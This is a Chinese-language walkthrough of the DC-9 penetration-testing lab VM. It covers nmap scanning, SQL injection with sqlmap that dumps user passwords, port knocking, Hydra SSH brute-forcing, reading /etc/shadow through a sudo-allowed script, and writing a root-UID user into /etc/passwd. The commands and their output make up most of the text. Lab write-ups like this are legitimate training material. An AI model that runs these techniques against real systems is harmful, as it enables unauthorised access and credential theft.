








## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80,1042,1623,2448,2568,2803,3089,3583,4091,4353,4616,4781,4932,4950,5952,6189,6784,6992,7425,7499,7683,7923,8151,8598,8841,9067,9096,9419,9597,9605,9646,9737,9909,10314,10763,11655,11766,11938,11943,11947,12084,12097,12267,12981,13106,13817,13916,15326,15758,16098,17155,17399,17660,18278,18344,18463,19465,19753,19917,19999,20268,22883,22960,23244,23486,23541,24175,24291,25241,26089,26473,26814,26867,26900,27083,27270,27467,27702,27820,27938,28096,28296,28468,28968,29599,29784,29925,30306,30307,30482,30563,30653,30938,31207,31511,31541,32789,32970,33033,33260,33264,33793,33932,34428,34786,35117,35636,35762,35818,35991,36123,36217,36245,36289,36297,36299,36325,36429,36572,36907,37151,37482,37590,37861,38775,38919,38946,39634,39909,40222,40274,40277,40418,40583,41086,41219,41429,41652,42014,42209,42213,42353,42475,42503,42623,42634,42983,43035,43192,43206,43447,43616,44023,44108,44236,44662,44921,44989,45068,45071,45170,45514,46090,46905,47033,47659,47933,48289,48357,48564,48616,48647,49423,49602,50203,50465,50486,50501,50736,50826,51419,51533,51639,51674,51972,52015,52244,52304,52478,52505,52703,53087,53309,53623,54066,55388,55834,56022,56228,56410,56419,57048,57547,58118,58478,58652,58686,58732,58822,59257,59639,59867,59941,60061,60137,60745,60807,60915,61209,61401,61501,62777,63061,63128,63216,63383,63546,64158,64854,65380  192.168.1.103
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-20 13:02 CST
Nmap scan report for 192.168.1.103
Host is up (0.0019s latency).
Not shown: 229 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8E:8E:77 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/20%OT=80%CT=1042%CU=43760%PV=Y%DS=1%DC=D%G=Y%M=08
OS:0027%TM=65FA6DE7%P=x86_64-pc-linux-gnu)SEQ(II=I)ECN(R=N)T1(R=N)T2(R=N)T3
OS:(R=N)T4(R=N)T5(R=N)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop

```

## web渗透

随便点一点

看到一个搜索框，直接sql注一下
万能密码得到所有数据

这个数据在`display.php`页面也有

很多用户信息，先存下username

sqlmap跑数据
得到用户信息和密码

```sql
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
```

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ cat passwd.txt
 3kfs86sfd
 468sfdfsd2
 4sfd87sfd1
 RocksOff
 TC&TheBoyz
 B8m#48sd
 Pebbles
 BamBam01
 UrAG0D!
 Passw0rd
 yN72#dsd
 ILoveRachel
 3248dsds7s
 smellycats
 YR3BVxxxw87
 Ilovepeepee
 Hawaii-Five-0


┌──(fforu㉿fforu)-[~/workspace]
└─$ cat users.txt
 marym
 julied
 fredf
 barneyr
 tomc
 jerrym
 wilmaf
 bettyr
 chandlerb
 joeyt
 rachelg
 rossg
 monicag
 phoebeb
 scoots
 janitor
 janitor2

```
 hydra -L users.txt -P passwd.txt 172.20.10.2 http-post-form '/manage.php:username=^USER^&password=^PASS^:F=invalid'
 用这些信息没爆破出来

 sqlmap看另外一个表


得到admin用户信息及密码
```bash
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

admin/transorbital1

`manage.php`页面存在一个文件包含漏洞


## knock端口敲门



得到一个`knock.conf`文件

knock是用于保护服务器不受hacker攻击的服务
如图这边显示的openSSH是open ssh要先去敲7469,8475,9842这几个端口

knock 192.168.1.130 7469 8475 9842

此时靶机已经开放了22端口

## ssh爆破

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -L users.txt -P passwd.txt ssh://192.168.1.130 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-20 19:21:48
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 324 login tries (l:18/p:18), ~81 tries per task
[DATA] attacking ssh://192.168.1.130:22/
[STATUS] 89.00 tries/min, 89 tries in 00:01h, 235 to do in 00:03h, 4 active
[STATUS] 72.67 tries/min, 218 tries in 00:03h, 106 to do in 00:02h, 4 active
[STATUS] 64.00 tries/min, 256 tries in 00:04h, 68 to do in 00:02h, 4 active
[STATUS] 58.80 tries/min, 294 tries in 00:05h, 30 to do in 00:01h, 4 active
[STATUS] 54.00 tries/min, 324 tries in 00:06h, 1 to do in 00:01h, 1 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-20 19:28:01
```

hydra爆破没爆出来，不知道为啥
直接找两个用户连接一下就可以了

```bash
janitor@dc-9:~$ whoami
janitor
janitor@dc-9:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for janitor:
Sorry, user janitor may not run sudo on dc-9.
janitor@dc-9:~$
```

```bash
janitor@dc-9:~/.secrets-for-putin$ ls -la
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Mar 20 21:21 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```
得到一些密码


这里再去爆破一下，他妈的之前是文本格式错了
下次记得把空格全删了再去爆破，浪费时间了

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ hydra -L users.txt -P passwd.txt 192.168.1.130 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-20 20:16:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 391 login tries (l:17/p:23), ~25 tries per task
[DATA] attacking ssh://192.168.1.130:22/
[22][ssh] host: 192.168.1.130   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.1.130   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.130   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.130   login: janitor   password: Ilovepeepee
[STATUS] 375.00 tries/min, 375 tries in 00:01h, 16 to do in 00:01h, 16 active
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-20 20:17:29
```

fredf B4-Tru3-001
chandlerb UrAG0D!
joeyt Passw0rd
janitor Ilovepeepee

都去登录一下？


## 提权
登录到fredf用户时，sudo -l发现一个可sudo执行的脚本

```bash
fredf@dc-9:/opt/devstuff/dist/test$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

运行一下试试

```bash
fredf@dc-9:/opt/devstuff/dist/test$ sudo ./test
Usage: python test.py read append
```
找一下test.py
```bash
fredf@dc-9:/opt/devstuff/dist/test$ find / -name test.py -type f 2>/dev/null
/opt/devstuff/test.py
/usr/lib/python3/dist-packages/setuptools/command/test.py

fredf@dc-9:/opt/devstuff/dist/test$ cat /opt/devstuff/test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

代码解析：
命令行输入参数不等于3时，退出
命令行参数包括：1{脚本名称}，2{第一个文件}，3{第二个文件}
r，f读第一个文件的内容
a，f以追加模式写到第二个文件中
可以直接把shadow拿出来了

```bash
fredf@dc-9:/opt/devstuff/dist/test$ sudo  ./test /etc/shadow /tmp/shadow
fredf@dc-9:/opt/devstuff/dist/test$ ls /tmp
linpeas.sh  systemd-private-2e6c7dab6fc84e47abba58cb4be9cac6-apache2.service-Uphykb
shadow      systemd-private-2e6c7dab6fc84e47abba58cb4be9cac6-systemd-timesyncd.service-3FbvNa
fredf@dc-9:/opt/devstuff/dist/test$ cat /tmp/shadow
root:$6$lFbb8QQt2wX7eUeE$6NC9LUG7cFwjIPZraeiOCkMqsJ4/4pndIOaio.f2f0Lsmy2G91EyxJrEZvZYjmXRfJK/jOiKK0iTGRyUrtl2R0:18259:0:99999:7:::
daemon:*:18259:0:99999:7:::
bin:*:18259:0:99999:7:::
sys:*:18259:0:99999:7:::
sync:*:18259:0:99999:7:::
games:*:18259:0:99999:7:::
man:*:18259:0:99999:7:::
lp:*:18259:0:99999:7:::
mail:*:18259:0:99999:7:::
news:*:18259:0:99999:7:::
uucp:*:18259:0:99999:7:::
proxy:*:18259:0:99999:7:::
www-data:*:18259:0:99999:7:::
backup:*:18259:0:99999:7:::
list:*:18259:0:99999:7:::
irc:*:18259:0:99999:7:::
gnats:*:18259:0:99999:7:::
nobody:*:18259:0:99999:7:::
_apt:*:18259:0:99999:7:::
systemd-timesync:*:18259:0:99999:7:::
systemd-network:*:18259:0:99999:7:::
systemd-resolve:*:18259:0:99999:7:::
messagebus:*:18259:0:99999:7:::
sshd:*:18259:0:99999:7:::
systemd-coredump:!!:18259::::::
mysql:!:18259:0:99999:7:::
marym:$6$EC59.EO3fZXPPMVr$61TZ96DmGiYpTCyB02YdIl0Uvu82UnFMSxlZ5HcraYN.5sgJI/E028bxjZM5S2LwwN8LImSUxfz9fXckKfRdJ0:18259:0:99999:7:::
julied:$6$32/2fdkDb73B.Pbu$ZY/FnFR9GHSLfdhOmqYc6Qrt0MrwllJ3VjZDoyc8386oYyuYRUIPDvz3GOp36KzlnzfKObcQKbA44OFRWVaTH/:18259:0:99999:7:::
fredf:$6$CLKIMQJIUehJJqbo$8afEl6ipZRF1LKIu8Qw9wbufGgFze6/xrBDdTr7oS6bTibipCenHJ/m/lzNj36i8pIfrsd2RVoEdA5jwxhnMZ1:18259:0:99999:7:::
barneyr:$6$ozASzz3uY5pZ01N0$mXJ2Bh9t5vgmMpnTl6CXtvCRz5zYBr4bwYLE/0JtxPHAeFmlxJibsgQsJRemYYPbzVuFRIu9KD9CD3MFl5CJ6/:18259:0:99999:7:::
tomc:$6$96XehDk5ozd3Yx1N$ZmrnsxS6rH1KpyMN4E0YhRPKfcP/ZacdFl7eHgTVJhFwqfxgaDGH7aLYTONEi2XjXWV.TvbGL7nU3ihiHf30Y0:18259:0:99999:7:::
jerrym:$6$wlCURlxOqBWhare6$zq3RvAT4tdx12GoMP0BLK/TxLausSspKPCHWIQSuBVMXm8GN5Wi13FsIkvLpML93Ny8G6J/q3JEr41Pder6Q/.:18259:0:99999:7:::
wilmaf:$6$2hEqLZyozDA001uz$LFM49N1ZO1bN1KbMuzb9jJCIonwEPNBxEvEFmIXPgAL1KvKAxgJFH494CWHUyzsizvCz780z6r1OeufCgxHUm0:18259:0:99999:7:::
bettyr:$6$cZjlc4EB3VXiOGoY$fcW9ne5x2wQhYdnUukOcx0umnG/FSzuIGLZTRPo/VlPDWai/oM5FVaffLqSSim5xgwJ3JBerIdW6BXZWTc6gd.:18259:0:99999:7:::
chandlerb:$6$cVQ1y2nQYgwpMKvT$3rRdWV/3d0uasARPBvZlcAtrWQZdjJsndgSIfD27yf0jGTp6hxgXrI0v5CayLtuallgbCg44gLjnbCN8NlFHk0:18259:0:99999:7:::
joeyt:$6$FfsFOF2eFLLssCIx$Xw2h6l2tkSye/9IoYbK0a6VeGd8771UJWyeYw1m2X6Xcgc1iE0UYaZf.ySUlD8tIsS6FRxyAxEZyYspbAdvIf/:18259:0:99999:7:::
rachelg:$6$yDoxHglucM5kjbyz$JL0k6riILYc2fDVu.S25TrVAWDXB5yjtdrhHtQkCp25oZnMTGq6dj8LJX8yGutyeNDd8mjyQT8UDtN9C6CKvA.:18259:0:99999:7:::
rossg:$6$m7qudrh2e.QzNHjz$W/qreraYyvBJICSt12Oha2pqvjRpPcyU1nhMpHKhHTZ/X3sRE7nvkVtHh0oYrKgjYyznWn6XtDShoN6tRmeYh1:18259:0:99999:7:::
monicag:$6$OKThUPaRpzMonEJT$VJOMjAKPip3c6MSteIsrtu/x01VwvK6CfUYmY24RU5X.jYBJYbGzCQPFBpfzXc32D2jItQL2eTYtTxrrXh9pT.:18259:0:99999:7:::
phoebeb:$6$hv8tIcEfkNLWF0UD$JNOVj9XT0kOh/omUlPOzL8kbkNyqmcGSRuAwK97kHYEfzvP4MJnWiGTIbGuYW5wCGOzsJ2MN8e5fO5jh6f3GX/:18259:0:99999:7:::
scoots:$6$PxiTl9DHLbYR.R9b$K6judJrN68gASxg9mOLsL./YVhs4Gt/QTtI1Qx5Wj2Fc2QpgmDZtMhfwxNMs2nUSywOdRaPobhtvb2QT.24OK.:18259:0:99999:7:::
janitor:$6$bQhC0fZ9g9313Aat$aZ0GecSMTi1qUGqSF6eAdGu2pDXRg1Zu8JzLyyhvSAwh8MnLzv3XPnu6Vw9OruPsgAGgA2dCYdOuk9T4hgDZ6/:18259:0:99999:7:::
janitor2:$6$HkvFAeOwjGjr6jDj$CUt0HJpmATAcPYxVjsxsYclUWFgfaGucL.c/WiavCt.op9UjqkM2yZdoDpyFW1rZbiSHCQ2MGIy0kBhcPPnhn.:18259:0:99999:7:::
fredf@dc-9:/opt/devstuff/dist/test$ 
```

这里破解不出来
用写入/etc/passwd的方式

```bash
fredf@dc-9:/opt/devstuff/dist/test$ which perl
/usr/bin/perl
fredf@dc-9:/opt/devstuff/dist/test$ perl -le 'print crypt(fforu,fforu)'
ffQGL2SoSAEcs
fredf@dc-9:/opt/devstuff/dist/test$ echo 'fforu:ffQGL2SoSAEcs:0:0:fforu:/root:/bin/bash'
fforu:ffQGL2SoSAEcs:0:0:fforu:/root:/bin/bash
fredf@dc-9:/opt/devstuff/dist/test$ echo 'fforu:ffQGL2SoSAEcs:0:0:fforu:/root:/bin/bash' > /tmp/fforu
fredf@dc-9:/opt/devstuff/dist/test$ sudo ./test /tmp/fforu /etc/passwd
fredf@dc-9:/opt/devstuff/dist/test$ su fforu
Password:
root@dc-9:/opt/devstuff/dist/test#
```

用perl生成加盐的hash值，写入到/etc/passwd并作为root用户
提权成功


